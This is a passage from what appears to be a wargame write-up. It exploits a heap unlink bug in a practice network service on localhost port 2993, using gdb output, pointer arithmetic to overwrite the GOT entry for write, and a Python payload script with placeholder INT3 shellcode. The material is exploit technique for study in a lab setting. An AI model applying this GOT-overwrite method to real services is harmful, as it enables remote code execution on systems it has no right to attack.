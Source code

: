 ```shell
(gdb) info functions write
...
0x08048dfc  write@plt
0x08048f2c  fwrite
0x08048f2c  fwrite@plt
(gdb) disassemble 0x08048dfc
Dump of assembler code for function write@plt:
0x08048dfc <write@plt+0>:       jmp    DWORD PTR ds:0x804d41c
0x08048e02 <write@plt+6>:       push   0x68
0x08048e07 <write@plt+11>:      jmp    0x8048d1c
End of assembler dump.
(gdb) x/wx 0x804d41c
0x804d41c <_GLOBAL_OFFSET_TABLE_+64>:   0xb7f53c70
```

We want to overwrite the contents of `0x804d41c` with **the address of our shellcode**.

Since `unlink()` adds **12** to the forward pointer, we set:

$$
forward pointer = 0x804d41c - 12 = 0x804d410
$$

And the backward pointer will **point to a place on the heap**.

### Crafting Exploit

We will place our shellcode in the first chunk, starting at `0x804e010`, since the first two DWORDs will be the forward and backward pointers during the first `free()`. And this address will also be our **backward pointer**.

Here is the general format of the two payloads:

```shell
payload1 = FSRD AAAA <payload> AAAA...AAA/
payload2 = FSRD ROOT/ 0xfffffffc 0xfffffffc 0x804d410 0x804e010 AAAA...AAAA
```

The spacing in the payloads is for clarity; it will be removed in the actual exploit.

To check if our exploit executes correctly, we'll use an `INT3` **(0xCC)** instruction. If we hit a `SIGTRAP` signal, it means execution successfully redirects to our shellcode.

```python
import socket

HOST = '127.0.0.1'
PORT = 2993
REQSZ = 128

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

shellcode = "\xcc\xcc\xcc\xcc"

payload1 = "FSRD" + "AAAA" + shellcode
payload1 += "A" * (REQSZ - len(payload1) - 1 ) + "/"

write_got = struct.pack("I", 0x804d410)
heap_return = struct.pack("I", 0x804e010)

payload2 = "FSRDROOT/" + struct.pack("I", 0xfffffffc) + struct.pack("I", 0xfffffffc) + write_got + heap_return
payload2 += "A" * (REQSZ - len(payload2))

s.send(payload1)
s.send(payload2)
```